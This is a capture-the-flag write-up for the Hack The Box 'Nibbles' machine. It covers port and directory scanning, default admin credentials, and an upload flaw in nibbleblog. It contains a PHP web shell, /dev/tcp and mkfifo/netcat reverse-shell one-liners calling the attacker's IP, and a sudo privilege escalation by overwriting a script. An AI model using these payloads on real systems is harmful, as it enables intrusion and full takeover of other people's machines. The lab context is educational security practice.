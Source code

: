 ```yaml
---
title: "Nibbles HTB Writeup"
publishedAt: "2018-07-01"
updatedAt: "2020-10-12"
summary: "Writeup of the Nibbles HackTheBox machine."
---
```


- Creator: [@mrb3n](https://www.hackthebox.eu/home/users/profile/2984)
- Host: [hackthebox.eu](https://hackthebox.eu)

## Owning User

Let's start up with the usual Nmap port scan.

> `~ ❯❯❯ nmap -sC -sV 10.10.10.75`

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-25 18:52 EEST
Nmap scan report for 10.10.10.75 (10.10.10.75)
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; pr
otocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 13.97 seconds
```

Looks like we have a webserver. Let's fire up our browser and have a look.

<Image
    alt="10.10.10.75"
    src="nibbles-hack-the-box-writeup/10.10.10.75.png"
    width={1244}
    height={538}
/>

Hello to you too! A simple `view-source` reveals an interesting directory:

```html
<b>Hello world!</b>


<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Navigating to the new directory, we find an empty blog.

<Image
    alt="nibbleblog"
    src="nibbles-hack-the-box-writeup/nibbleblog.png"
    width={1330}
    height={1392}
/>

Let's try to `dirb` for any suspicious files within this 'empty' blog.

> `~ ❯❯❯ dirb http://10.10.10.75/nibbleblog/`

```bash
-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Jun 25 18:58:57 2018
URL_BASE: http://10.10.10.75/nibbleblog/
WORDLIST_FILES: /usr/local/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.75/nibbleblog/ ----


==> DIRECTORY: http://10.10.10.75/nibbleblog/admin/
+ http://10.10.10.75/nibbleblog/admin.php (CODE:200|SIZE:1401)

==> DIRECTORY: http://10.10.10.75/nibbleblog/content/
+ http://10.10.10.75/nibbleblog/index.php (CODE:200|SIZE:4743)

==> DIRECTORY: http://10.10.10.75/nibbleblog/languages/

==> DIRECTORY: http://10.10.10.75/nibbleblog/plugins/
+ http://10.10.10.75/nibbleblog/README (CODE:200|SIZE:4628)

==> DIRECTORY: http://10.10.10.75/nibbleblog/themes/

-----------------
END_TIME: Mon Jun 25 19:04:50 2018
DOWNLOADED: 4612 - FOUND: 3
```

The `admin.php` page seems interesting; we should have a look.

<Image
    alt="admin"
    src="nibbles-hack-the-box-writeup/admin.png"
    width={1332}
    height={1218}
/>

A login screen. Let's give it some guessing shots to see if we can get lucky.

After a few tries, we notice that there's some sort of WAF, blacklisting users after consecutive failed authentication attempts.

<Image
    alt="blacklist"
    src="nibbles-hack-the-box-writeup/blacklist.png"
    width={1330}
    height={536}
/>

A few minutes later, we were able to retry.

The credentials `admin` for username and `nibbles` for password did the job, saving us from the trouble of bruteforcing our way in (using some dynamic proxy). Of course, it's Hack The Box; the machine's name always comes in handy at some point.

After conducting some research, we come accross a nibbleblog vulnerability: [CVE-2015-6967](https://seclists.org/fulldisclosure/2015/Sep/5). It turns out that we can upload any `php` script as an image in the "My image" plugin section. 

A dead simple php script should do the job:

```php
<?php

echo shell_exec($_GET['e']);
```

Once we upload our 'image' onto the bloggin platform, we can navigate to [10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php](http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=id) to see that we are now able to execute commands through our url bar!

<Image
    alt="id"
    src="nibbles-hack-the-box-writeup/id.png"
    width={1736}
    height={240}
/>

Evidently, we now have 'nibbler' privileges (i.e. user privileges). So, let's pop a reverse shell.

Firstly, we should create a file containing our reverse shell script inside the `/tmp/` directory, where we should logically have the appropriate permissions. 

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/echo "/bin/bash -i %3E%26 /dev/tcp/10.10.15.174/443 0%3E%261" > /tmp/reverse.txt
```

Subsequently, let's ensure that we have execute permissions to run the temporary file using `chmod 777`.

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/chmod 777 /tmp/reverse.txt
```

Finally, we can now fire up a listener on our local device using `netcat`  and execute our reverse shell file.

```bash
10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?e=/bin/bash /tmp/reverse.txt/
```

We should now have a shell as user "nibbler":

> `root@kali:~/# nc -vlp 443`

```bash
listening on [any] 443 ...
connect to [10.10.15.174] from 10.10.10.75 [10.10.10.75] 39002
bash: cannot set terminal process group (1335): Inappropriate ioctl for device
bash: no job control in this shell
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
```

We can subsequently navigate to the `/home/` directory where we can retrieve our first flag:

> `nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler`

> `nibbler@Nibbles:/home/nibbler/$ cat user.txt`

```bash
{USER_HASH_GOES_HERE}
```

## Owning Root

Taking a look at the contents of nibbler's home directory, we can also find a zip folder called `personal.zip`. Let's try unzipping it.

> `nibbler@Nibbles:/home/nibbler/$ ls`

```bash
personal.zip
user.txt
```

> `nibbler@Nibbles:/home/nibbler/$ unzip personal.zip`

```bash
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh
```

The archive inflated a new file called `monitor.sh`. Let's navigate to its directory.

> `nibbler@Nibbles:/home/nibbler/$ cd personal/stuff`

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ ls -la`

```bash
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

The file contains a bash script called [tecmint_monitor.sh](https://github.com/atarallo/TECMINT_MONITOR/blob/master/tecmint_monitor.sh) which, according to the creator, "monitors linux health"; that's beside the point though. Now, let's modify the contents of the file into a reverse shell script and try to run it as `root`. 

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ sed -i d monitor.sh`

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff/$ echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.15.174 7777 > /tmp/f" >> monitor.sh
```

> `nibbler@Nibbles:/home/nibbler/personal/stuff/$ sudo -u root monitor.sh`

We should make sure to open up a listener on the same port before running the above command and wait to see if we can get a connection.

> `root@kali:~/Desktop# nc -vlp 7777`

```bash
listening on [any] 7777 ...
connect to [10.10.15.174] from 10.10.10.75 [10.10.10.75] 49104
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

And there we have it! We now have root priviliges. Let's extract our `root.txt` hash.

```bash
# cd /root
# ls
root.txt
# cat root.txt
{ROOT_HASH_GOES_HERE}
```

I hope you enjoyed this walkthrough! Make sure to stay tuned for more *Hack The Box* writeups coming up soon!
